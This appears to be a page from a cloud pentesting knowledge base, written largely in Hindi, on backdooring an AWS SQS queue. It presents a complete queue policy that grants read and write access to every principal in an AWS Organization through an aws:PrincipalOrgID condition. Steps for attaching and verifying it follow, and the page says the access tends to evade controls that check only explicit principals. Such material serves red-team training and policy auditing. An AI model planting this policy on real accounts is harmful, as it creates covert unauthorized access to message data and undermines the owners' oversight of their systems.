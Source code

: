 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

SQS queue resource policy का दुरुपयोग कर के aws:PrincipalOrgID condition का उपयोग करके किसी भी principal को जो target AWS Organization का हिस्सा है, चुपचाप Send, Receive और ChangeMessageVisibility अनुमति दी जा सकती है। यह एक org-scoped छिपा मार्ग बनाता है जो अक्सर उन नियंत्रणों से बच निकलता है जो सिर्फ explicit account या role ARNs या star principals को ही देखते हैं।

### Backdoor policy (attach to the SQS queue policy)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### कदम
- AWS Organizations API के साथ Organization ID प्राप्त करें।
- SQS queue ARN प्राप्त करें और ऊपर दिए गए statement को शामिल करते हुए queue policy सेट करें।
- उस Organization से संबंधित किसी भी principal के रूप में, queue में संदेश भेजें और प्राप्त करें ताकि access मान्य किया जा सके।

### प्रभाव
- निर्दिष्ट AWS Organization के किसी भी account से SQS messages पढ़ने और लिखने के लिए Organization-wide छिपा हुआ पहुंच।

{{#include ../../../../banners/hacktricks-training.md}}
